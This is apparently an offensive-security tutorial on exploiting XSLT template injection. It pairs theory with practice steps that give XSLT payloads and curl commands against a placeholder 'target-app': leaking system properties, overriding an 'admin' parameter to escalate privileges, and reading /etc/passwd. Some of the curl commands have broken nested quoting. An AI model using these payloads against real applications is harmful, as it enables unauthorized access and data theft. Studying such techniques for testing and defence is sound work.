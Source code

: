 ```yaml
---
title: Exploiting XSLT Template Injection in Web Apps
description: Learn to exploit XSLT Template Injection for executing arbitrary code
  and accessing sensitive data in web applications.
keywords:
- XSLT Template Injection
- dynamic template generation
- code execution
- data access
- template manipulation
- context escape
- XSLT parameter injection
---
```


# Exploiting XSLT Template Injection

## Context

Template Injection involves exploiting vulnerabilities in applications that use XSLT (Extensible Stylesheet Language Transformations) for dynamic template generation. This technique allows attackers to execute code or manipulate logic by injecting malicious templates or altering existing logic. The objective is to manipulate template construction in XSLT, leading to potential code execution, data access, or logic modification. This content assumes familiarity with XSLT processing internals, template engine operation, XML structure and parsing, and general XSLT injection techniques.

## Theory

### Dynamic Template Generation in XSLT

Dynamic template generation in XSLT occurs when templates are constructed or modified during runtime based on user input. This approach can make applications vulnerable if templates are not properly sanitized. When user-controlled data influences template definitions, it can alter XSLT logic or inject malicious code.

### Template Parameter and Variable Injection

Template parameter injection involves influencing the values of `<xsl:param>` or `<xsl:variable>` elements in XSLT templates. If these parameters are improperly sanitized, attackers can inject values that modify the intended logic of the transformation. This vulnerability model allows the attacker to define or override template variables, which can significantly influence the output of the transformation.

### Template Manipulation and Poisoning

Template manipulation refers to altering or injecting new `<xsl:template>` blocks into the XSLT processing sequence. By doing so, attackers can hijack the transformation process, enabling the execution of arbitrary code or the exfiltration of sensitive data. The typical attack sequence involves injecting a malicious template that is eventually invoked during the transformation.

### Context Escape in XSLT

Context escape in XSLT occurs when an attacker bypasses the intended restrictions of the template logic. By crafting inputs that challenge weak validation mechanisms, attackers can inject unauthorized templates or parameters. This technique enables them to execute arbitrary XSLT instructions outside the initially intended context.

## Practice

### Injecting a Malicious XSLT Template via User Input

- Identify user input reflected in XSLT template construction. Focus on parameters or variables within the XSLT code that are affected by user inputs.
- Inject the following payload to define a new template:
  ```xml
  <xsl:template match="/">
      <xsl:value-of select="system-property('os.name')"/>
  </xsl:template>
  ```
  This payload is designed to leak the server's operating system information.
- Use the following command to inject the payload via CURL:
  ```bash
  curl -X POST -d "template=<xsl:template match='/'> <xsl:value-of select='system-property('os.name')'/> </xsl:template>" https://target-app/upload-xslt
  ```
- Trigger the XSLT transformation process to ensure the template is processed. This action tests whether the injected template is executed.

### Overriding XSLT Parameters to Influence Logic

- Locate the `<xsl:param>` or `<xsl:variable>` elements that receive data from user input. Determine how these inputs are influencing XSLT parameters.
- Inject a payload to override an XSLT parameter:
  ```xml
  <xsl:param name="admin">true</xsl:param>
  ```
  This payload attempts to escalate privileges by overriding the 'admin' parameter.
- Use the CURL command to inject this parameter override:
  ```bash
  curl -X POST -d "param=<xsl:param name='admin'>true</xsl:param>" https://target-app/upload-xslt
  ```
- After injection, check if access is granted to application features normally restricted by the 'admin' parameter.

### Context Escape to Inject Arbitrary XSLT Instructions

- Examine input fields for opportunities to escape the current context (e.g., through unescaped template fragments).
- Attempt context escape by injecting a payload to close existing templates and inject new instructions:
  ```xml
  </xsl:template><xsl:template match="/"> <xsl:value-of select="document('file:///etc/passwd')"/> </xsl:template>
  ```
  This payload attempts to read sensitive files from the server.
- Use CURL to submit the payload:
  ```bash
  curl -X POST -d "template=</xsl:template><xsl:template match='/'> <xsl:value-of select='document('file:///etc/passwd')'/> </xsl:template>" https://target-app/upload-xslt
  ```
- Review the output to see if the content of the sensitive file has been exposed, verifying the success of the context escape and arbitrary code execution.

## Tools

- **curl**
- **Burp Suite**
